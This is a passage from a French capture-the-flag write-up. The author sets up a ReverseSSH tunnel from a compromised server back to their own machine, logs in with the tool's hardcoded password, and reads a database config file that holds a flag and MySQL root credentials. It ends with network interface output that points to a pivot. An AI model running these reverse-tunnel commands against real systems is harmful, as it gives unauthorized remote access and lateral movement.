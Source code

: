 Sur le serveur je peux rappatrier un [ReverseSSH](https://github.com/Fahrj/reverse-ssh) pour établir un tunnel avec ma machine :  

```bash
$ ./reverse-sshx64 -v -p 4444 192.168.1.47
```

Sur ma machine j'étais à l'écoute :  

```bash
$ ./reverse-sshx64 -v -l -p 4444
```

Une fois le tunnel établit il suffit d'utiliser le port SSH local 8888 comme si il s'agissait du serveur SSH de notre victime.  

```bash
$ ssh -p 8888 127.0.0.1
```

Le mot de passe attendu (hardcodé dans ReverseSSH) est *letmeinbrudipls* et le nom d'utilisateur n'a pas d'importance.  

Un nouveau flag s'offre à moi dans le fichier */var/www/html/anchor/config/db.php*.  

```php
<?php

# {{tryharder:737}}

return [
    'default'     => 'mysql',
    'prefix'      => 'anchor_',
    'connections' => [
        'mysql' => [
            'driver'   => 'mysql',
            'hostname' => '172.31.20.10',
            'port'     => '3306',
            'username' => 'root',
            'password' => 'anchordb',
            'database' => 'anchor',
            'charset'  => 'utf8mb4'
        ]
    ]
];
```

Le container sur lequel on a atteri a deux interfaces :  

```plain
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.31.10.17  netmask 255.255.255.0  broadcast 172.31.10.255
        ether 02:42:ac:1f:0a:11  txqueuelen 0  (Ethernet)
        RX packets 251484  bytes 55303764 (55.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 329546  bytes 56740553 (56.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.31.20.27  netmask 255.255.255.0  broadcast 172.31.20.255
        ether 02:42:ac:1f:14:1b  txqueuelen 0  (Ethernet)
        RX packets 319622  bytes 40501808 (40.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 380399  bytes 45040314 (45.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
